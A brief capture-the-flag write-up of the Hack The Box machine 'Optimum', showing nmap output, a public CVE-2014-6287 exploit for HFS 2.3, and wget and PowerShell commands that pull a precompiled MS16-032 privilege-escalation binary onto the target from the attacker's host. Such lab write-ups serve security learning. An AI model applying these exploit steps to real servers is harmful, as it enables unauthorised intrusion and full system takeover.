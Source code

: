 ```yaml
---
featured_image: "/posts/Optimum/Optimum.png"
title : HTB 15/20 Optimum
published : true
date: 2021-04-24
author : PS
---
```

## Foothold
*nmap*

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-28 16:28 EEST
Nmap scan report for 10.10.10.8
Host is up (0.075s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Port 80 timeeee  
![[1.png]]
Lots of this to check :(  
When trying to login , and failing we see something interesting :  
![[2.png]]
hmmm  
![[3.png]]
Hehe  
## User
We use the https://github.com/roughiz/cve-2014-6287.py (do not forget to run it with sudo )  
And get a  shell :  
![[4.png]]
## Root 
![[5.png]]
We find the version of the win , search it on the internet and find an exploit :
![[6.png]]
We will use the compiled version : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032/x64
```bash
wget https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-032/x64/ms16-032.exe
```
Get the exploit on the other machine 
![[7.png]]
```bash
powershell.exe -c "Invoke-WebRequest -Uri http://10.10.14.7/ms16-032.exe -OutFile C:\Users\kostas\Desktop\ms16-032.exe
```
Run the exploit annnd get root :D 
PS outttttt
